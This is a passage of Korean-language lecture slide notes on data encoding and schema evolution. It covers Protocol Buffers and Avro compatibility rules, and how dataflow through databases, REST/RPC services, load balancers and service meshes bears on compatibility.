- 예) 32비트 정수 → 64비트 정수로 변경하면:
  - 새 코드에서는 옛 데이터를 읽기 쉽습니다.
  - 옛 코드에서는 새 데이터를 읽을 때 잘립니다 — 디코딩된 64비트 정수가 32비트에 안 들어가면 잘립니다.

---

## 슬라이드 15. 애니메이션 · Protobuf 스키마 진화

옛 스키마와 새 스키마를 나란히 두고, 필드를 추가/삭제/이름 변경 했을 때 호환성이 어떻게 유지되는지 직접 시도해볼 수 있는 시뮬레이션입니다.

세 가지 카테고리로 나뉩니다:

- **안전한 변경** — 새 태그로 필드 추가, 이름만 변경. 인코딩 데이터에는 영향이 없습니다.
- **조심해야 함** — 필드 제거 시 그 태그를 영원히 봉인해야 합니다. 데이터 타입 변경 시 잘림 위험이 있습니다.
- **치명적** — 태그 번호 재사용은 옛 데이터를 잘못 해석하게 만듭니다.

---

## 슬라이드 16. Avro 도입 (1-4. Avro)

또 다른 이진 인코딩 형식인 **Apache Avro**입니다.

2009년 Hadoop의 하위 프로젝트로 시작되었는데, Protocol Buffers가 Hadoop의 사용 사례에 잘 맞지 않아서 만들어졌습니다.

### 스키마 사용

Avro도 데이터 구조를 명시하기 위해 스키마를 사용합니다. 두 가지 스키마 언어가 있습니다:

- **Avro IDL** — 사람이 편집하기 위한 것
- **JSON 기반** — 기계가 더 쉽게 읽기 위한 것

Protocol Buffers와 유사하게 필드와 타입만 명시합니다.

### Avro IDL 예시

```
record Person {
  string userName;
  union { null, long } favoriteNumber = null;
  array interests;
}
```

### 동등한 JSON 표현

```json
{
  "type": "record",
  "name": "Person",
  "fields": [
    {"name": "userName", "type": "string"},
    {"name": "favoriteNumber", "type": ["null", "long"], "default": null},
    {"name": "interests", "type": {"type": "array", "items": "string"}}
  ]
}
```

### 결정적 차이 — 태그 번호가 없음

Protocol Buffers와 달리, Avro는 **필드 태그 번호가 없습니다**.

처음 나왔던 JSON을 인코딩하면:
- **Avro: 32바이트** (Protobuf 33바이트보다도 작습니다)

---

## 슬라이드 17. Avro 인코딩 원리

### Avro 인코딩 — 순수하게 값만

그림과 함께 인코딩 원리를 살펴봅시다.



Avro에서는 **필드나 데이터 타입을 식별하는 것이 아무것도 없습니다**.

그림과 같이 오직 **길이 접두사 + 값**이 연결되어 있는 인코딩 방식입니다.

### Protocol Buffers와 비교

- **Protocol Buffers** — 각 필드에 타입 주석 + 태그 번호 → 데이터 자체가 어느 정도 자기 설명적입니다.
- **Avro** — 순수하게 값만 나열합니다. 어디서 한 필드가 끝나고 다음 필드가 시작하는지 데이터만 봐서는 알 수 없습니다.

### 핵심 — Avro는 스키마 없이 디코딩이 불가능하다

이진 데이터를 파싱하기 위해 **스키마에 나타나는 순서**대로 필드를 훑으면서, 스키마를 사용해 각 필드의 데이터 타입을 판단합니다.

→ **데이터를 읽는 코드가 데이터를 쓴 코드와 정확히 동일한 스키마를 사용할 때만** 올바르게 디코딩할 수 있습니다.

즉:
- **장점** — 태그, 타입 주석이 전혀 없어서 **가장 압축적**입니다.
- **단점** — 스키마가 조금만 어긋나도 **데이터 전체가 깨집니다**.

### 그렇다면 스키마 진화는 어떻게?

결론적으로, 데이터를 읽는 코드와 스키마가 정확히 같아야 하는데 어떻게 **스키마 진화(schema evolution)** 가 가능할까요? 다음 슬라이드에서 살펴보겠습니다.

---

## 슬라이드 18. Writer's vs Reader's 스키마

Avro에는 **두 개의 스키마 개념**이 있습니다.

### ① Writer's schema

애플리케이션이 데이터를 **인코딩할 때** 사용하는 스키마입니다.

### ② Reader's schema

데이터를 **디코딩할 때** 사용하는 스키마입니다.

### 두 스키마의 관계

- **두 스키마가 같으면** → 디코딩이 쉽습니다.
- **두 스키마가 다르면** → Avro가 둘을 **비교해서 차이를 해석**하고, 데이터를 writer's schema에서 reader's schema로 변환하는 규칙을 적용해야 합니다.



### Protocol Buffers와 Avro 비교

| | Protocol Buffers | Avro |
|---|---|---|
| 인코딩/디코딩 스키마 | 서로 다른 버전을 사용 가능 | **디코딩에 두 스키마를 사용** |
| 호환성 메커니즘 | **태그 번호**를 사용 | writer/reader 두 스키마를 **대조**하여 차이를 해석 |
| 제약 | 없음 | writer's schema는 인코딩에 쓴 것과 **반드시 동일**해야 함 |

---

## 슬라이드 19. 애니메이션 · Avro 스키마 해석

Avro가 스키마를 통해 어떻게 해석하는지 살펴봅시다.

Writer 스키마와 Reader 스키마가 다를 때, Avro가 어떻게 필드를 짝짓고 빠진 곳을 메우는지 단계별로 살펴봅니다.



### 규칙 ① — 필드 순서가 달라도 괜찮다

Writer's schema와 reader's schema의 필드 순서가 달라도 괜찮습니다. 스키마 해석이 **필드를 이름(field name)으로 매칭**하기 때문입니다.

(앞서 *"스키마 순서대로"* 읽는다고 했지만, 두 스키마를 대조할 때는 순서가 아니라 이름으로 짝지웁니다.)

### 규칙 ② — Writer's schema에만 존재하는 필드

Writer 스키마에만 있고 reader 스키마에는 없는 필드는 **무시**합니다.

### 규칙 ③ — Reader's schema에만 존재하는 필드

Reader 스키마에서 어떤 필드를 기대하는데 writer 스키마에 없으면, **reader 스키마에 정의된 기본값**을 사용합니다.

---

## 슬라이드 20. Avro 스키마 진화 규칙 (Schema evolution rules)

### Avro에서 호환성이란

- **상위 호환성** — writer's 스키마가 reader's 스키마보다 **더 새로운 버전**의 스키마를 사용할 때의 호환성
- **하위 호환성** — writer's 스키마가 reader's 스키마보다 **더 오래된 버전**의 스키마를 사용할 때의 호환성

### 핵심 규칙

Avro에서 호환성을 유지하기 위한 핵심 규칙은:
- **기본값(default value)이 있는 필드만 추가하거나 제거할 수 있다**는 것입니다.

이를 위반할 경우:
- 기본값이 없는 필드를 추가하면 → 새 reader가 옛 writer의 데이터를 읽지 못함 → **하위 호환성이 깨집니다**.
- 기본값이 없는 필드를 제거하면 → 옛 reader가 새 writer의 데이터를 읽지 못함 → **상위 호환성이 깨집니다**.

### null 처리

일부 프로그래밍 언어에서는 null이 기본적으로 허용되는데, Avro는 그렇지 않습니다. 필드가 null이 될 수 있게 하려면 **union 타입**을 사용해야 합니다.

```
union { null, long, string } field;
// field는 숫자, 문자열, 또는 null 가능
```

null을 기본으로 허용하는 것보다 장황할 수 있지만, null이 허용되는 필드와 아닌 필드를 명확히 구분하여 **버그를 예방**합니다.

### 타입·이름 변경

- **데이터 타입 변경** — 타입을 변환할 수 있는 경우 가능합니다.
- **필드 이름 변경** — 가능하지만 까다롭습니다.
  - Reader 스키마가 필드 이름의 **별칭(alias)** 을 담을 수 있어서, 옛 writer 스키마의 필드 이름을 별칭과 매칭합니다.
  - 결과 — 필드 이름 변경은 **하위 호환되나, 상위 호환은 안 됩니다**.
  - 이유 — Reader 스키마에 별칭을 넣을 수 있어서 새 리더가 옛 이름을 이해할 수 있습니다. 반면 옛 리더는 별칭을 모르므로 새 이름을 이해하지 못합니다.

---

## 슬라이드 21. Writer's schema 전달 방법

중요한 질문이 있습니다:
> *리더는 특정 데이터를 인코딩하는 데 사용한 스키마를 어떻게 알까?*

스키마를 알게 하기 위해 전체 스키마를 매 레코드마다 포함할 수는 없습니다 (공간 절약 이점이 사라지기 때문).

이에 대한 답은 **Avro가 사용되는 맥락에 따라 다릅니다**.

### 맥락 ① — 많은 레코드가 있는 큰 파일

- 수백만 레코드가 모두 같은 스키마로 인코딩된 큰 파일입니다.
- **해결** — 파일 라이터가 **파일 시작 부분에 스키마를 단 한 번** 포함합니다.
- Avro가 이를 위한 파일 포맷(*object container files*)을 명세하고 있습니다.

### 맥락 ② — 개별적으로 쓰인 레코드가 있는 데이터베이스

- DB에서는 서로 다른 레코드가 다른 시점에 다른 스키마로 쓰일 수 있습니다 (모든 레코드가 같은 스키마가 아닐 수 있습니다).
- **해결** — 모든 인코딩 레코드 시작 부분에 **버전 번호**를 포함하고, DB에 **스키마 버전 목록**을 유지합니다.
- 리더는 레코드의 버전 번호를 보고 해당하는 writer's 스키마를 찾아서 디코딩합니다.
- 예) Confluent의 Schema Registry, LinkedIn의 Espresso

### 맥락 ③ — 네트워크 연결로 전송

- 두 프로세스가 양방향 네트워크 연결로 통신할 때, 연결 설정 시점에 **스키마 버전을 협상**하고 연결 수명 동안 그 스키마를 사용합니다.
- 예) Avro RPC

### 공통점

세 방식 중 어떤 경우든 **스키마 버전 DB**를 만들어 두는 것은 유용합니다. (문서 역할, 스키마 호환성 검사 용도 등 장점이 있습니다.)

---

## 슬라이드 22. 동적 생성 스키마 (Dynamically generated schemas)

Avro는 Protocol Buffers와 대비하여 **한 가지 장점**이 있습니다. → 스키마에 태그 번호가 없다는 것입니다.

이게 왜 장점일까요?

차이는 **Avro가 동적으로 생성된 스키마에 더 친화적**이라는 점입니다.

### 예시 — 관계형 DB를 파일로 dump

관계형 DB를 파일로 덤프한다고 가정해봅시다. 그리고 텍스트 형식의 문제를 피하기 위해 이진 형식 사용을 원한다고 가정합니다.

### Avro를 사용할 경우

관계형 스키마로부터 Avro 스키마를 **꽤 쉽게 생성**합니다.

- 각 DB 테이블이 **레코드 스키마**에 해당
- 각 컬럼이 **레코드의 필드**에 해당
- DB 컬럼 이름이 **Avro의 필드 이름**에 해당

### 만약 DB 스키마가 바뀌면? (컬럼 추가/삭제)

**Avro**
- 업데이트된 DB 스키마에서 **새 Avro 스키마를 생성**하고 새 스키마로 데이터를 내보내기만 하면 됩니다.
- 데이터 내보내기 작업에서는 스키마 변경에 신경 쓸 필요가 없습니다.
- 새 데이터를 읽는 사람은 필드가 바뀐 걸 보지만, **필드가 이름으로 식별**되므로 옛 reader 스키마와 여전히 호환됩니다.

**Protocol Buffers**
- 필드 태그를 수작업으로 할당해야 할 가능성이 큽니다.
- DB 스키마가 바뀔 때마다 관리자가 **DB 컬럼 이름 → 필드 태그 매핑을 수동으로 갱신**해야 합니다.
- 이 부분은 자동화를 할 수도 있지만, 스키마 생성기가 **이전에 사용했던 필드 태그를 재할당하지 않도록** 조심해야 합니다.

### 요약

필드 이름으로 매칭하기 때문에 사람의 개입이 적은 도구 친화적 진화가 가능합니다. **Avro가 자동화 파이프라인에 더 매끄럽게 들어맞는 이유**입니다.

---

## 슬라이드 23. 스키마의 장점 (1-5. The Merits of Schemas)

### Protocol Buffers와 Avro의 공통점

- 둘 다 이진 인코딩 형식을 위한 **스키마**를 사용합니다.
- 스키마 언어가 XML Schema, JSON Schema보다 훨씬 **단순**합니다.
- 단순하기 때문에 구현과 사용이 쉽습니다.

### 새로운 아이디어가 아님 — ASN.1

이런 인코딩들이 기반한 아이디어는 새로운 것이 아닙니다. 이전에도 비슷한 개념이 있었습니다.

**ASN.1**
- **1984년** 처음 표준화된 스키마 정의 언어
- 다양한 네트워크 프로토콜에 정의되어 사용되었으며, SSL 인증서(X.509) 인코딩을 위한 DER 인코딩에도 사용됨
- Protocol Buffers와 유사하게 **태그 번호**로 스키마 진화 지원
- 하지만 매우 복잡하고 문서화가 부실

### 데이터 시스템의 독자 이진 인코딩

많은 데이터 시스템이 자체 데이터에 대한 **독자적(proprietary) 이진 인코딩**을 구현합니다.

- 대부분의 RDB는 쿼리를 보내고 응답받는 **네트워크 프로토콜**을 가집니다.
- DB 벤더가 드라이버(예: ODBC, JDBC API)를 제공하여, DB 네트워크 프로토콜 응답을 인메모리 자료구조로 **디코딩**합니다.

### 스키마 기반 이진 인코딩의 좋은 속성들

텍스트 형식(JSON, XML, CSV ...)이 널리 쓰이지만, 스키마 기반 이진 인코딩도 유효한 선택이고 좋은 속성들이 많습니다.

- **압축성** — 필드 이름을 생략할 수 있어서 압축성이 좋습니다.
- **최신 문서 역할** — 스키마 자체가 가치 있는 문서이며, 디코딩에 스키마가 필수이므로 **최신 상태임이 보장**됩니다.
- **호환성 사전 검사** — 스키마 DB를 사용하여 스키마 변경의 상위/하위 호환성을 검사할 수 있습니다.
- **컴파일 타임 타입 체크** — 스키마로부터 코드를 생성하므로 컴파일 시점에 타입 검사가 가능합니다.

### 요약

스키마 진화(schema evolution)는 **유연성**을 제공함과 동시에 데이터에 대한 **보장(안전성)** 도 가능하게 합니다.

단, 동시에 운영하는 스키마 형식의 수는 최소로 유지하는 것이 운영을 단순하게 만드는 데 바람직합니다.

---

## 슬라이드 24. 데이터플로 4가지 방식 (2. Modes of Dataflow)

지금부터는 인코딩된 데이터가 **어떻게 흘러가는가**에 대해 다룹니다.

### 앞부분에서 배운 것

메모리를 공유하지 않는 다른 프로세스에 데이터를 보내려면, 데이터를 바이트 시퀀스로 인코딩해야 합니다.
- 이를 위해 다양한 인코딩을 학습했습니다.
- 진화 가능성에 따른 상위/하위 호환성 방식을 학습했습니다.

여기서 호환성은 **관계**입니다. *데이터를 인코딩하는 프로세스*와 그것을 *디코딩하는 다른 프로세스* 사이의 관계입니다.

지금부터는 데이터가 흐르는 방식(누가 쓰고 누가 읽는지, 시간 간격이 얼마인지)에 따라 달라지는 호환성 요구를 알아봅니다.

### 네 가지 데이터플로 방식

- **2-1. 데이터베이스** — 쓰는 프로세스가 인코딩, 읽는 프로세스가 디코딩. 시간 간격은 수 분 ~ 수 년.
- **2-2. 서비스 (REST/RPC)** — 클라이언트 ↔ 서버. 동기적 요청/응답. 각 요청은 보통 수 ms ~ 수 초.
- **2-3. Durable Execution & Workflow** — 여러 서비스 호출의 시퀀스를 신뢰성 있게 실행. WAL 기반 재실행.
- **2-4. 이벤트 기반 (메시지 브로커)** — 비동기 메시지. 브로커가 송수신을 분리. 송신자는 보내고 잊음.

---

## 슬라이드 25. DB를 통한 데이터 흐름 (2-1. Dataflow Through Databases)

데이터베이스에서는 **쓰는 프로세스가 인코딩**, **읽는 프로세스가 디코딩**을 합니다.

### ① 데이터베이스에 접근하는 프로세스가 하나일 경우

- 리더는 같은 프로세스의 **더 나중 버전**입니다. (즉, DB에 쓰여진 데이터를 읽는 리더는 시간적으로 항상 더 나중의 상태를 읽는다는 말입니다.)
- Writer의 입장에서는 DB에 무언가 저장하는 것이 **미래의 자신에게 메시지를 보내는 것**과 같다고 생각할 수 있습니다.
- 즉, **하위 호환성이 필요**합니다. (아니면 미래의 내가 과거의 내가 쓴 것을 디코딩하지 못합니다.)

### ② 데이터베이스에 여러 프로세스가 접근하는 경우

- 일부 프로세스가 새 코드, 일부 프로세스가 옛 코드를 실행 중일 수 있습니다 (예: 롤링 업그레이드 중).
- 이런 경우, DB의 데이터가 새 버전 코드로 쓰였는데 읽히는 건 옛 버전의 코드일 수 있습니다.
- 즉, **상위 호환성도 필요**합니다. (옛 코드가 새 코드가 쓴 데이터를 읽을 수 있어야 합니다.)

### 결론

DB는 시간을 가로지르는 통신 채널입니다. 따라서 **양방향 호환성**이 모두 필요합니다.

---

## 슬라이드 26. 서로 다른 시점에 쓰인 값들 (Different values written at different times)

### DB의 특성

- DB는 일반적으로 어떤 값이든 언제든 갱신을 허용합니다 (방금 전 쓴 값과 5년 전에 쓴 값이 공존 가능).
- 새 버전 애플리케이션 배포 시 옛 버전은 몇 분 안에 새 버전으로 교체됩니다.
- 하지만 **DB 내용은 그렇지 않습니다** (5년 전 인코딩했던 그대로 남아 있을 수 있습니다).

### 데이터 마이그레이션을 미루는 이유

스키마가 새로 바뀌면 데이터를 다시 쓸 수 있다고 생각할 수 있습니다. 하지만 그러지 않는 이유가 있습니다.

- 큰 데이터셋에서 **비용이 비쌉니다**.
- 그래서 대부분의 DB는 이 작업을 **연기하고 비동기적으로 수행**합니다.
  - LSM-tree storage engine의 **압축(compaction)**
  - 대부분의 관계형 DB — *null 기본값인 새 컬럼 추가* 같은 스키마 진화는 **기존 데이터를 다시 쓰지 않고** 허용합니다.

### 하지만 여전히 재작성이 필요한 경우도 있다

복잡한 스키마 변경에서는 여전히 데이터 재작성이 필요합니다. 이런 상황에서의 마이그레이션 중 상위/하위 호환성 유지는 **여전히 연구 과제**입니다.

---

## 슬라이드 27. 아카이브 저장소 (Archival storage)

가끔 DB의 스냅샷을 찍을 수 있습니다 (백업용, 데이터 웨어하우스 로딩용).

### 최신 스키마로 통합

이 경우, 원본 DB가 여러 버전의 스키마로 인코딩된 상태이더라도 **최신 스키마로 인코딩하여 데이터를 덤프**합니다.

### 형식 선택

데이터 덤프는 한 번 쓰이고 나서부터는 **불변**이라서 **Avro** 같은 형식이 잘 맞습니다.

또는 상황에 따라 분석에 친화적인 **Parquet** 같은 칼럼 지향 형식(column-oriented format)도 좋습니다.

### 흐름

여러 버전 스키마의 DB → 최신 스키마로 통합 덤프 → Avro / Parquet

---

## 슬라이드 28. 서비스 — REST와 RPC (2-2. Dataflow Through Services)

서비스 간 데이터 흐름에서는, 보통 두 가지 역할로 **client**와 **server**를 나눌 수 있습니다.

- **Server** — 네트워크를 통해 API를 노출(expose)
- **Client** — 서버에 연결해 API를 요청(request)
- **Service** — 서버가 노출하는 API

### 웹이 작동하는 방식

웹이 작동하는 방식을 간략히 살펴봅시다.

1. 클라이언트(웹 브라우저)가 웹 서버에 요청합니다 (HTML/CSS/JS는 GET, 데이터 제출은 POST).
2. API는 표준화된 프로토콜과 데이터 형식의 집합입니다 (HTTP, URL, SSL/TLS 등).
3. 브라우저, 서버, 웹사이트 작성자는 이 표준에 합의합니다 → **어떤 브라우저로든 웹사이트에 접근 가능**합니다.

브라우저만이 클라이언트는 아닙니다.
- 모바일, 데스크톱 네이티브 앱도 서버와 통신 가능합니다.
- 이 경우 보통 클라이언트 측 코드가 처리하기 쉬운 인코딩 데이터(예: JSON)로 응답합니다.

### 서비스 vs 데이터베이스

어떤 면에서 서비스와 데이터베이스는 유사해 보입니다 (클라이언트에게 데이터를 제출하거나 조회하게 함). 하지만 차이가 있습니다.

**데이터베이스**
- 쿼리 — 쿼리 언어로 **임의 쿼리** 가능
- 유연하지만 통제가 약함

**서비스**
- 쿼리 — 애플리케이션 특화 API. **정해진 입출력만** 허용
- 특성 — 캡슐화. 클라이언트의 접근을 세밀하게 제한

### 독립적 배포와 진화

서비스 지향(service-oriented), 마이크로서비스(microservices) 아키텍처의 목표는 애플리케이션을 더 쉽게 변경하고 유지보수하기 위함입니다.

보통 각 서비스는 하나의 팀이 소유하고, 다른 팀과 조율 없이 새 버전을 배포할 수 있어야 합니다.

이런 아키텍처에서 필연적인 상황으로:
- 옛/새 버전의 서버와 클라이언트가 **동시 실행**될 수 있습니다 → 따라서 데이터 인코딩은 서비스 API의 **버전 간 호환**이 되어야 합니다.
- API가 호환을 유지하면 각 팀은 시스템을 원하는 대로 수정 가능합니다 (호환성은 각 팀이 서로 발목을 잡지 않기 위한 **계약**입니다).

---

## 슬라이드 29. Web Services와 REST

### Web Service란?

**HTTP가 서비스와 통신하는 기저 프로토콜**로 사용되는 서비스입니다.

"Web Service"라는 용어가 살짝 부적절한 이름일 수 있는데, 웹에서만 쓰이는 게 아니기 때문입니다.

예를 들면:
- 사용자 기기의 클라이언트 앱 → 서비스 (모바일 네이티브 앱, 브라우저 JS 앱이 HTTP 요청하는 경우)
- 같은 조직의 서비스 → 서비스
- 다른 조직의 서비스 → 서비스

### REST (Representational State Transfer)

REST는 **HTTP의 원칙 위에 구성된 서비스의 설계 철학**입니다.

REST가 강조하는 것:
- 단순한 데이터 형식
- 리소스 식별에 **URL** 사용
- 캐시 제어, 인증, 컨텐트 타입 협상에 **HTTP 기능** 활용

REST 원칙에 따라 설계된 API를 **RESTful**이라 합니다.

### 클라이언트는 API 세부를 어떻게 아는가?

클라이언트는 어떤 HTTP 엔드포인트에 질의해야 할지, 어떤 데이터 형식을 보내고 어떤 응답을 기대할지 알아야 합니다.

그래서 서비스 개발자는:
- IDL(Interface Definition Language)로 API 명세 문서를 작성하고 최신화합니다.
- 다른 개발자는 그 문서로 질의 방법을 파악합니다.

### 인기 있는 두 서비스 IDL

- **OpenAPI Specification (OAS)** — JSON을 주고받는 웹 서비스에 사용
- **Protocol Buffers** — gRPC 서비스에 사용

---

## 슬라이드 30. OpenAPI 예시와 서비스 프레임워크

### OpenAPI 예시

```yaml
openapi: 3.0.0
info:
  title: Ping, Pong
  version: 1.0.0
servers:
  - url: http://localhost:8080
paths:
  /ping:
    get:
      summary: Given a ping, returns a pong message
      responses:
        '200':
          description: A pong
          content:
            application/json:
              schema:
                type: object
                properties:
                  message:
                    type: string
                    example: Pong!
```

Protocol Buffers는 앞에서 본 Protobuf IDL을 사용합니다.

### 서비스 프레임워크 — 왜 필요한가?

설계 철학과 IDL을 정했다 하더라도, 개발자는 여전히 API 호출을 구현하는 코드를 작성해야 합니다.

이런 노력을 단순화하기 위한 **서비스 프레임워크(service framework)** 가 존재합니다 (예: Spring Boot, FastAPI, gRPC ...).

프레임워크가 라우팅, 캐싱, 인증 등을 처리하여 개발자는 **비즈니스 로직에만 집중**할 수 있습니다.

### 서비스 정의와 코드의 결합 — 두 가지 방향

많은 프레임워크가 서비스 정의와 서버 코드를 결합하려고 합니다.

**① 코드 우선 (Code-First)**
- 서버를 코드로 작성 → IDL이 자동 생성됨
- 예) FastAPI

**② 정의 우선 (Definition-First)**
- 서비스 정의(명세) 먼저 작성 → 서버 코드 골격 생성
- 예) gRPC

### IDL 도구의 능력

코드 생성 외에도 Swagger 같은 IDL 도구는 다음을 할 수 있습니다:
- 문서 생성
- 스키마 변경 호환성 검증
- 테스트를 위한 GUI 제공

---

## 슬라이드 31. RPC의 문제점 (The Problems with Remote Procedure Calls)

웹 서비스는 네트워크 API 요청을 하는 기술들 중 **최신 버전**일 뿐입니다. 이전에는 다음과 같은 기술들이 있었는데 문제가 많았습니다.

- **EJB, Java RMI** — Java에만 한정
- **DCOM** — Microsoft 기술에 한정
- **CORBA** — 지나치게 복잡. 상위/하위 호환성이 없음
- **SOAP, WS-*** — 벤더 간 상호 운용이 목표였음. 복잡성, 호환성 문제

### 모든 기술의 기반

위와 같은 많은 기술이 있는데, 모든 기술은 **1970년대에 도입된 RPC(Remote Procedure Call)** 개념을 기반으로 합니다.

**RPC 모델**은 원격 네트워크 서비스에 대한 요청을, **같은 프로세스 안에서 함수/메서드를 호출하는 것과 똑같아 보이게** 만드는 것이 목표입니다.

### RPC의 근본 결함

메서드 호출하듯 요청하는 게 편해 보이지만 근본적인 결함이 있습니다.

**네트워크 요청과 로컬 함수 호출은 매우 다르기 때문**입니다. 다음 슬라이드에서 그 이유를 6가지로 살펴봅시다.

---

## 슬라이드 32. 네트워크 vs 로컬 함수 호출 차이

### 네트워크 요청과 로컬 함수 호출이 다른 6가지 이유

**① 예측 가능성**
- **로컬 함수 호출** — 예측 가능. 내가 통제하는 매개변수에 따라 성공 또는 실패.
- **네트워크 요청** — 예측 불가. 내 통제 밖에 있는 문제들이 많음 (예: 원격 머신 등의 문제).

**② 결과의 종류**
- **로컬 함수 호출** — 결과 반환, 예외 발생, 무한 대기(예: 무한 루프) 중 하나.
- **네트워크 요청** — 추가 결과가 있음 (예: 타임아웃 등으로 결과 없이 반환). 이 경우 무슨 일이 일어났는지 알 수 없고, 요청이 잘 도달했는지도 불명확함.

**③ 재시도**
- **로컬 함수 호출** — 네트워크 요청과 같이 요청은 처리됐으나 결과가 없는 등의 문제가 없음 (재시도 처리가 명확).
- **네트워크 요청** — 실제 처리되었더라도 응답만 유실될 수 있어서 재시도 처리 부분이 불명확함.

**④ 실행 시간과 지연**
- **로컬 함수 호출** — 보통 처리 시간이 비슷함.
- **네트워크 요청** — 함수 호출보다 훨씬 느리고, 네트워크 상태에 따라 지연이 극도로 가변적임.

**⑤ 매개변수 전달**
- **로컬 함수 호출** — 로컬 메모리 객체에 대한 **참조**를 효율적으로 전달 가능.
- **네트워크 요청** — 모든 매개변수를 네트워크로 보낼 수 있는 **바이트 시퀀스로 인코딩**해야 함. 큰 데이터, 가변 객체에서 문제 발생 가능.

**⑥ 언어 간 타입 변환**
- **로컬 함수 호출** — 단일 언어, 단일 프로세스에는 이 문제가 없음.
- **네트워크 요청** — 클라이언트와 서비스가 다른 언어로 구현될 수 있어서, RPC 프레임워크가 한 언어의 데이터 타입을 다른 언어로 변환해야 함. 이 과정에서 모든 언어가 같은 타입을 갖지 않으므로 추해질 수 있음 (예: JavaScript 2⁵³ 초과 숫자 문제).

### 결론

**원격 서비스를 로컬 객체와 유사하게 만들려는 시도는 무의미**합니다. 근본적으로 다르기 때문입니다.

### REST와 RPC의 철학 차이

- **RPC** — 네트워크 동작을 *숨기려고* 합니다.
- **REST** — 네트워크 동작은 *다른 것임을 인정*하고 함수 호출과 별개로 구별합니다.

---

## 슬라이드 33. 로드밸런서·서비스 디스커버리·서비스 메시 (Load Balancers, Service Discovery, and Service Meshes)

모든 서비스는 네트워크로 통신합니다. 따라서 클라이언트는 연결하려는 서비스의 주소를 알아야 합니다 → **서비스 디스커버리(service discovery)** 문제입니다.

가장 단순하게는 서비스가 실행 중인 **IP 주소와 포트**에 연결하도록 설정하는 방법이 있습니다. 작동은 하지만, 서버의 오프라인 전환, 머신 이동, 과부하 상태 등에서 수동 재설정이 필요합니다.

### 부하 분산 (Load Balancing)

높은 가용성과 확장성을 위해 **여러 머신에서 서비스의 여러 인스턴스가 실행**됩니다. 부하 분산은 이 인스턴스들에 요청을 적절히 분산하는 것입니다.

여러 솔루션이 있습니다.

**① Hardware Load Balancers**
- 데이터 센터에 설치되는 전용 장비입니다.
- 들어오는 연결이 서비스가 실행되고 있는 하나의 서버로 라우팅되도록 합니다.
- 네트워크 장애를 감지하여 다른 서버로 트래픽을 전환하기도 합니다.

**② Software Load Balancers (NGINX, HAProxy 등)**
- 하드웨어와 유사한 방식. 표준 머신에 설치 가능한 애플리케이션입니다.

**③ DNS (Domain Name Service)**
- 단일 도메인 이름에 여러 IP 주소를 연결해 부하 분산을 지원합니다. 클라이언트는 IP 대신 도메인 이름으로 연결합니다.
- **단점** — DNS는 IP를 캐시하고 변경을 전파하는 데에 오랜 시간이 걸리기 때문에, 클라이언트가 오래된(stale) IP를 보게 될 수 있습니다.

**④ Service Discovery Systems**
- DNS 대신 **중앙 레지스트리**(etcd, Apache ZooKeeper 등)를 사용하여 사용 가능한 서비스 엔드포인트를 추적합니다.
- 서비스는 주기적으로 **heartbeat** 신호를 보내서 사용 가능함을 알립니다.
- DNS 대비 장점 — 서비스 인스턴스가 자주 바뀌는 **동적인 환경**에 유리합니다. 더 많은 메타데이터를 제공하여 똑똑한 부하 분산 결정이 가능합니다.

---

## 슬라이드 34. Service Mesh

### ⑤ Service Meshes

소프트웨어 로드밸런서와 서비스 디스커버리를 결합한 형태입니다. 별도 머신에서 동작하는 전통 로드밸런서와 달리:

- **in-process client library** (같은 프로세스 안에서 함께 실행되는 라이브러리 형태)
- 또는 서버 인스턴스와 함께 실행되는 **sidecar 컨테이너**로 배포됩니다.

### 연결 흐름

```
클라이언트 앱 → local service load balancer → server's load balancer → local server process
```

```
[ 서비스 A 컨테이너 ]            [ 서비스 B 컨테이너 ]
   App A  ──┐                       ┌── App B
            │ (localhost)           │ (localhost)
        [ 사이드카 A ] ───네트워크───> [ 사이드카 B ]
```

### 복잡하지만 다음의 이점이 있다

- 클라이언트-서버가 **로컬 연결**을 통해 라우팅되므로 **연결 암호화를 로드밸런서 레벨**에서 처리 가능합니다 → 클라이언트와 서버가 SSL 인증서 등을 다룰 필요가 없습니다.
- 정교한 **관측성(observability)** 을 제공합니다 — 어떤 서비스가 서로 호출하는지 실시간 추적, 장애 감지, 트래픽 부하 추적 등이 가능합니다.

### 어떤 것을 선택해야 하는가?

- **Kubernetes 같은 오케스트레이터, 매우 동적인 환경** → Service Mesh (예: Istio, Linkerd)
- **DB, 메시징 같은 특수 인프라** → 목적 특화 로드밸런서 (예: MySQL의 ProxySQL, Vitess의 VTGate — 쿼리를 받아 어느 샤드로 보낼지 라우팅)
- **단순 배포** → 소프트웨어 로드밸런서

---

## 슬라이드 35. RPC의 데이터 인코딩과 진화 (Data encoding and evolution for RPC)

진화 가능성을 위해 RPC 클라이언트와 서버는 **독립적으로 변경/배포**될 수 있어야 합니다.

### DB와 다른, 단순화된 가정

DB의 데이터 흐름과 비교했을 때, 서비스 데이터 흐름에서는 단순화된 가정을 할 수 있습니다.

→ **모든 서버가 먼저 업데이트되고, 그 다음 모든 클라이언트가 업데이트됩니다.**

이 가정으로부터의 결론은:

→ **요청(request)에는 하위 호환성만, 응답(response)에는 상위 호환성만** 필요합니다.

```
서버가 업그레이드 되었고(새 코드), 클라이언트는 아직 그대로(옛 코드)라고 가정하면


→ 요청: 옛 클라이언트가 보냄(옛 형식) → 새 서버가 읽음
   = 새 코드가 옛 데이터 읽기 = 하위 호환성

→ 응답: 새 서버가 보냄(새 형식) → 옛 클라이언트가 읽음
   = 옛 코드가 새 데이터 읽기 = 상위 호환성
```

### 호환성은 인코딩 형식에서 상속된다

RPC 방식의 하위/상위 호환성 속성은 그 RPC가 사용하는 **인코딩으로부터 상속**됩니다.

호환성 처리를 살펴보면:

- **gRPC (Protocol Buffers)** — 태그 번호 규칙으로 처리
- **Avro RPC** — writer/reader 스키마 해석으로 처리
- **RESTful API** — 보통 JSON. 선택적 요청 매개변수 추가, 응답 객체에 새 필드 추가는 호환성을 유지하는 변경으로 간주

---

## 슬라이드 36. 애니메이션 · RPC 호환성

서버가 먼저 업그레이드되었다고 가정했을 때, 클라이언트(옛)와 서버(새) 사이의 요청과 응답이 각각 어느 호환성을 요구하는지 시각화한 슬라이드입니다.

### 조직 경계를 넘는 호환성의 어려움

조직 경계를 넘어서 서비스가 사용되는 경우, 클라이언트를 통제할 수 없고 업그레이드를 강제하기 어렵기 때문에 호환성 유지가 어렵습니다.

결론적으로:
- 호환성을 **무기한 유지**해야 할 수도 있습니다.
- 여러 버전의 서비스 API를 **나란히 유지**하는 경우가 생깁니다.

### API 버전 관리 — 합의된 표준 없음

API 버전 관리에는 합의된 표준이 없는데, 흔한 접근법으로는 다음 방식이 있습니다:

- **URL에 버전 번호 사용** (예: `/v1/users`, `/v2/users`)
